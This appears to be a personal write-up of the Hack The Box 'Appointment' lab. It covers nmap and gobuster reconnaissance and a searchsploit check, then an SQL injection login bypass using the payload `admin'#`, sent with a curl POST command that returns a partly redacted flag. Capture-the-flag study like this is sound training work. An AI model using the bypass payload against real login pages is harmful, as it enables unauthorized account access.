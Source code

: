 ## Lab Title: Appointment
- Date: 2025-08-04
- Duration: ~30 minutes

### Platform: HTB – Starting Point > Tier 1

### 1. Scenario Summary
- Learn SQL Injectoin >> `nmap` >> craft a SQL payload

### 2. Findings
- SQL                >> Structured Query Language
- SQL Injection      >> SQL attack type
- A03:2021-Injection >> Top 10 OWASP

- nmap               >> Enumeration
    - `nmap $ip -sV -p T:80`
    - Apache httpd 2.4.38 ((Debian))

    - `searchsploit Apacher 2.4.38` >> to check any public exploits for this version of Apache with tool >> searchsploit

- `#`                  >> MySQL >> comment out the rest part

- Gobuster:
    - `gobuster dir -u http://$ip/ -w /seclists_path/ -x txt,php -o scan_output`
    - `-x txt,php` >> file extensions to look for

- SQL Craft:
    - `admin'#`
        - Here the apostrophe `'` used to cut off the rest of the query in the main SQL query in database
        - `#` here used to comment out the `password` field which is together with `username` field from login page
        - Altogether, the password which we give is not considered since it's commented out by `# `
        - Later in main SQL query >> after `user` part >> the rest of the query will be commented out by apostrophe `'`
        - Ultimate Goal >> to know which `username` is valid & exist in SQL database.

    - `curl -X POST -d "username=admin'#&password=hello" http://$ip:80`
        - Voila, La magique a arrive >> ca y est, c'est fini! J'ai obtenu le drapeau!
            - `<div><h3>Congratulations!</h3><br><h4>Your flag is: ***0796d002*******6f42e****`

### 3. Idea
- Firstly >> I did reconnaisance with Nmap >> found that `80` port is open >> then which server
    is running on it >> got a version of `Apache Server 2.4.38` >> used `searchsploit` to find the
    available expoits for this version of Apache >> no public ones >> then  >> used `gobuster` to do
    dir busting to find any dirs on web server >> not much stuff >> then time to do `SQL injection`
    crafted the payload `admin'#` and through this goal was to find the available & valid username
    and it worked out!
